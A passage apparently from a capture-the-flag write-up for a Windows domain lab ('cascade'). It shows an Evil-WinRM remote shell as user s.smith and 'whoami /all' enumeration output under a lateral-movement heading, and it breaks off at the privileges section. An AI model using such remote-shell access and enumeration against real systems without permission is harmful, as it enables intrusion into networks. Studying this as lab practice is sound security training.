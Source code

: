 ---OUTPUT---
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                       
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                         
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents> whoami
cascade\s.smith
```

----------
## Lateral Movement in Target
- We do some initial enumeration:
	- whoami /all
		```bash
whoami /all # whoami /priv for privileges only

---OUTPUT-WHOAMI-ALL---
USER INFORMATION
----------------

User Name       SID
=============== ==============================================
cascade\s.smith S-1-5-21-3332504370-1206983947-1165150453-1107


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Audit Share                         Alias            S-1-5-21-3332504370-1206983947-1165150453-1137 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

```